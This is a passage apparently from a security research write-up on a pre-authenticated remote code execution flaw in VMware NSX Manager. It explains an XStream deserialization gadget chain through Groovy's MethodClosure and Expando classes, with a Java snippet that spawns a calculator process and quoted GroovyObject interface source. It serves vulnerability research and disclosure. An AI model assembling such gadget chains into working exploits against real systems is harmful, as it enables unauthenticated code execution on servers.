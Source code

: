 ```java
MethodClosure methodClosure = new MethodClosure(new java.lang.ProcessBuilder("gnsome-calculator"), "start");
methodClosure.call(); // Clojure.call() --> getMetaClass().invokeMethod(this, "doCall",args);
```

Now that we have all this explained, we have another question to answer and that is, how can we invoke the `call` method with `XStream`? since direct method invocation is not possible on the unmarshalled data we need a gadget chain!

## Groovy Expando

Groovy provides a class named `Expando` which inherits from the `GroovyObject` parent class:

![](/assets/images/eat-what-you-kill-pre-authenticated-remote-code-execution-in-vmware-nsx-manager/Expando.png "Expando class hierarchy and inheritance")

```java
public interface GroovyObject {

    /**
     * Invokes the given method.
     *
     * @param name the name of the method to call
     * @param args the arguments to use for the method call
     * @return the result of invoking the method
     */
    Object invokeMethod(String name, Object args);

    /**
     * Retrieves a property value.
     *
     * @param propertyName the name of the property of interest
     * @return the given property
     */
    Object getProperty(String propertyName);

    /**
     * Sets the given property to the new value.
     *
     * @param propertyName the name of the property of interest
     * @param newValue     the new value for the property
     */
    void setProperty(String propertyName, Object newValue);

    /**
     * Returns the metaclass for a given class.
     *
     * @return the metaClass of this instance
```